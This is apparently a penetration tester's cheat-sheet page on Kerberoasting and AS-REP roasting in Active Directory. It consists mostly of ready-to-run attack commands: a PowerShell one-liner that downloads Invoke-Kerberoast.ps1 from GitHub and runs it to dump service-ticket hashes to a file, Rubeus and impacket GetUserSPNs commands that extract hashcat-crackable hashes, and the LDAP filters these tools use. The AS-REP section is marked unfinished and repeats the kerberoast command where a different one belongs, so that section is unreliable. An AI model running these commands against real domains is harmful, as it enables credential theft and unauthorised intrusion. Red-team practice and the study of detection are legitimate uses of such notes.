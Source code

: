 ```yaml
---
title: "Kerberoasting"
date: 2020-07-16T13:41:37+02:00
draft: false
---
```


#### EmpireProject Kerberoasting one-liner

```
IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat | Select-Object Hash | Out-File -filepath ‘c:\users\public\HashCapture.txt’ -Width 8000
```

#### Kerberoasting using Rubeus
The following command shows an example of how to peroform a kerberoasting attack using Rubeus. The outfile parameter ensures that the hashes are in a crackable (non newline delimited) format.

```.\Rubeus.exe kerberoast /creduser:<Domain>\<User> /credpassword:<Password> /domain:<Domain> /dc:<DomainController> /format:hashcat /outfile:roast.txt```

#### Kerberoasting from a non-domain joined machines using impackets GetUserSPNs.py

```
GetUserSPNs.py domain.local/username:password  -request
```
The following Rubeus command executes a keberoast attack for all users within the domain that have a Service Principle Name (SPN) configured.

```Rubeus kerberoast```

The underlying LDAP query Rubeus executes (by default) to look for users is the following one:

```(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))`"```

Broken down, it does the following:

* & - This prefix asserts all subsequent filters must be met.
* (samAccountType=805306368) – Only Active Directory users (not computers, groups, etc.)
* (servicePrincipalName=*) – User accounts that have any service principal name (SPN) entries
* (!samAccountName=krbtgt) – Omit the krbtgt account from this search
* (!(UserAccountControl:1.2.840.113556.1.4.803:=2)) – Omit accounts that are disabled

Rubeus also has flags for directly outputting to a hashcat-crackable format.



#### AS-REP Roasting using Rubeus (ToDo)
```Rubeus kerberoast```

Here the LDAP query looks as follows:
```(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))```
Broken down, it does the following:
* & - All subsequent filters must be met.
* (samAccountType=805306368) - Only Active Directory users (not computers, groups, etc.)
* (userAccountControl:1.2.840.113556.1.4.803:=4194304) – Users have the "Do not require Kerberos preauthentication" enabled.


#### References
https://labs.f-secure.com/blog/attack-detection-fundamentals-discovery-and-lateral-movement-lab-1
